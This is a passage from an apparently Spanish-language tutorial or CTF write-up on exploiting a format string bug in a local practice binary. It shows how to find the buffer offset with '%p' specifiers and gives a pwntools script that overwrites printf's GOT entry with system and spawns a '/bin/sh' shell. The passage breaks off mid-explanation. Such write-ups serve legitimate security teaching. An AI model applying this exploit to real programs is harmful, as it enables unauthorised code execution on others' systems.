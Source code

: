 ### Calculando el offset del buffer

Viendo que se esta imprimiendo la variable buffer de esta forma ```printf(buffer)``` podemos hace uso de format string, de hecho si le pasamos unos cuantos format string lo que hara es buscar valores de la memoria e imprimirlos como vemos en la imagen

![](/assets/img/formatString-got/format1.png)

Para saber el offset el buffer tenemos que pasarle algunas A en conjunto de unos format string, de esta manera ```AAAAAAAA %p %p %p %p %p %p %p``` esto con el fin de ver desde donde se estan inprimiendo nuestras A, esto nos imprime lo siguiente

![](/assets/img/formatString-got/format2.png)

Entonces si empezamos a contar desde ```0x12c``` hasta donde tengo seleccionado en la imagen, nos da 5, entonces el offset del buffer es 5.

## Armando nuestro exploit

El exploit queda de la siguiente manera

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000   

p = process("./got_overwrite-32")

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()
p.sendline('/bin/sh')
p.interactive()
```
Si vemos en esta parte 
```
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
```
